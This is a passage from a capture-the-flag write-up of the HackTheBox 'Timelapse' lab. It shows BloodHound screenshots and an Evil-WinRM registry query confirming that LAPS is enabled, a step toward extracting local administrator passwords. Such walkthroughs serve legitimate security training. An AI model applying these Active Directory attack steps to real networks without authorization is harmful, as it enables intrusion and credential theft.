 ![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809173223.png)

**Mark `legacyy` as owned:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Timelapse/images/Pasted%20image%2020230809173244.png)

After poking around at the Bloodhound, I found nothing interesting.

Let's take a step back.

In the downloaded Word documents in `Shares` SMB share, we knew that the Active Directory environment has implemented LAPS.

**According to [HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps#check-if-activated), we can confirm LAPS is really there or not:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> reg query "HKLM\Software\Policies\Microsoft Services\AdmPwd" /v AdmPwdEnabled

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft Services\AdmPwd
    AdmPwdEnabled    REG_DWORD    0x1
```
